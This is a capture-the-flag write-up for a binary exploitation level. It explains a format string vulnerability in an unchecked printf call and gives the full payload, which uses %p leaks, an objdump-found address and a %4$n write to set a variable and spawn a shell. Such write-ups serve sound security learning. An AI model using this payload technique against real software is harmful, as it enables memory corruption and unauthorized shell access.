

# LEVEL3

In this level, we observe that a buffer overflow is not possible due to the use of *fgets()*, which takes an array of 520 characters but only reads 512 characters. However, we do notice the use of *printf()* with the argument being passed directly for printing. Therefore, we can perform a `Format String` attack.

> A **Format String** attack is an exploit that leverages vulnerabilities in format strings to access memory, allowing an attacker to read, write, or execute malicious code.

Additionally, we can see a condition that compares the value of an unitialized variable to 64. If this condition is satisfied, the program executes a shell prompt. We will use a *Format String* attack to write to memory and set the value of that variable to 64.

First, we need to determine the offset to know where we should write in memory.

```
> ./level3
> AAAA %p %p %p %p %p %p %p
```


The ASCII value for 'A' is 41, which indicates that the offset is at the fourth position. Next, we need to determine the address of the variable we want to modify.

```
objdump -d level3
```


Upon examining the function *v()*, we notice that the address `0x804988c` is copied into the EAX register, which is then compared with the value '64'. From this, we can deduce that *0x804988c* is the address of the variable we want to modify.

Finally, we can construct the payload using the information we've gathered, following this template:\
`payload = address of the variable + value to write (in bytes) + address where we want to write the value`

```
python -c 'print("\x8c\x98\x04\x08" + "A"*60 + "%4$n")' > /tmp/payload3
```

And we can retrieve the flag.

```
cat /tmp/payload3 - | ./level3
```

**LEVEL3 COMPLETE!**